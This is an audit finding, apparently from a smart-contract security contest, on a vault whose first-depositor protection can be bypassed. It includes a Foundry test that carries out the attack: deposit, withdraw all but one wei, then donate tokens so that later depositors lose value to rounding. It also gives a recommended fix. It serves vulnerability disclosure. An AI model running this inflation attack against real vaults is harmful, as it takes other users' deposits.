 IllIllI

high

# `Vault` early user attack prevention can be circumvented

## Summary
By withdrawing most of the tokens deposited, an attacker can circumvent the early user attack prevention

## Vulnerability Detail
To prevent the attack where a user is able to steal deposits from other user due to loss of precesion, by depositing a small amount of the asset and then 'donating' a large amount of asset, the `Vault` ensures that the first depositor is given a large number of shares, making any large donation afterwards, divided among the extra shares. This protection can be circumvented by withdrawing most of the deposited asset, so that very few shares remain, leaving the contract in a state where it is as if the protection were not present.

```diff
diff --git a/mylink-contracts/test/Vault/deposit.t.sol b/mylink-contracts/test/Vault/deposit.t.sol
index d74b6ea..eff30db 100644
--- a/mylink-contracts/test/Vault/deposit.t.sol
+++ b/mylink-contracts/test/Vault/deposit.t.sol
@@ -6,6 +6,61 @@ import "../utils/StubPlugin.sol";
 contract Vault_depositTest is VaultTest {
     event Deposit(address indexed from, uint256 value);
 
+    function testFirstDepositorAttack(
+        uint256 bobAmount,
+        uint256 carolAmount
+    ) public {
+        uint256 aliceAmount = 10_000000000000000000;
+        vm.assume(bobAmount > 0 && carolAmount > 0);
+        StubPlugin plugin = new StubPlugin(address(vault), address(link));
+        vault.addPlugin(address(plugin), 0);
+
+        // Alice deposits
+        vm.assume(aliceAmount <= vault.availableForDeposit());
+        link.mint(alice, aliceAmount);
+        vm.startPrank(alice);
+        link.approve(address(vault), aliceAmount);
+        vault.deposit(aliceAmount);
+
+        // Alice withdraws all but one wei
+        vault.withdraw(aliceAmount - 1);
+        // and then 'donates' a large amount to the vault
+        link.transfer(address(vault), aliceAmount - 1);
+        vm.stopPrank();
+
+        // Bob deposits
+        vm.assume(bobAmount <= vault.availableForDeposit());
+        link.mint(bob, bobAmount);
+        vm.startPrank(bob);
+        link.approve(address(vault), bobAmount);
+        vault.deposit(bobAmount);
+        vm.stopPrank();
+
+        // Carol deposits
+        vm.assume(carolAmount <= vault.availableForDeposit());
+        link.mint(carol, carolAmount);
+        vm.startPrank(carol);
+        link.approve(address(vault), carolAmount);
+        vault.deposit(carolAmount);
+        vm.stopPrank();
+
+        // Check balances
+        emit log_uint(aliceAmount);
+        emit log_uint(vault.balanceOf(alice));
+        emit log_uint(bobAmount);
+        emit log_uint(vault.balanceOf(bob));
+        emit log_uint(carolAmount);
+        emit log_uint(vault.balanceOf(carol));
+        assertEq(vault.balanceOf(alice) > 0, true);
+        assertEq(vault.balanceOf(bob) > 0, true);
+        assertEq(vault.balanceOf(carol) > 0, true);
+
+        assertEq(link.balanceOf(bob), 0);
+        assertEq(link.balanceOf(carol), 0);
+
+        assertEq(link.balanceOf(address(plugin)), aliceAmount + bobAmount + carolAmount);
+    }
+
     function testSingleDeposit(uint256 amount) public {
         vm.assume(amount > 0);
         vm.assume(amount < vault.MAX_CAPACITY());
```
## Impact
As in the original early user attack, late users will lose their deposits to the early attacker.

## Code Snippet
The protection is only present when the `tokenSupply` is zero:
```solidity
// File: mylink-contracts/src/Vault.sol : Vault.convertToShares()   #1

614        function convertToShares(uint256 _tokens) public view returns (uint256) {
615            uint256 tokenSupply = totalSupply(); // saves one SLOAD
616 @>         if (tokenSupply == 0) {
617                return _tokens * STARTING_SHARES_PER_LINK;
618            }
619            return _tokens.mulDivDown(totalShares, tokenSupply);
620:       }
```
https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/src/Vault.sol#L614-L620

## Tool used
Manual Review

## Recommendation
Upon initialization, mint the initial shares to an address that is not able to withdraw them, so there is never a case where donations aren't diluted by the extra shares
